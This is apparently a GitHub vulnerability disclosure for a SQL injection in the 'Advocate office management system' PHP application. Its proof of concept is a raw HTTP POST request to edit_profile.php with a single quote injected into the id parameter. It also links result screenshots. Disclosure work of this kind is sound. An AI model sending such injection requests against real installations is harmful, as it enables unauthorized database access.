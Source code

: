 1.Advocate office management system SQL Injection

2.Description

The system Client doesn't properly sanitise POST parameter, which result into a SQL Injection.


3.Vendor 

Homepage https://www.sourcecodester.com/php/17280/advocate-office-management-system-free-download.html


4.Author 

will@webray.com.cn inc


5.Proof of Concept
(1)Request package details

POST /kortex_lite/kortex_lite/control/edit_profile.php?id=' HTTP/1.1

Host: 192.168.67.19

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Content-Type: multipart/form-data; boundary=---------------------------138672589812532910882517597860

Content-Length: 697

Cookie: PHPSESSID=m2d2dle30rvjnncs2tdtn9c37e

Upgrade-Insecure-Requests: 1


-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="id"


1

-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="name"


Mayuri K

-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="username"


mayuri.infospace@gmail.com

-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="image"; filename="2.png"

Content-Type: image/png


123

-----------------------------138672589812532910882517597860

Content-Disposition: form-data; name="edit"




-----------------------------138672589812532910882517597860--


(2)Verification results
![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/Advocate-office-management-system2.png)

![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/Advocate-office-management-system.png)

![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/Advocate-office-management-system3.png)
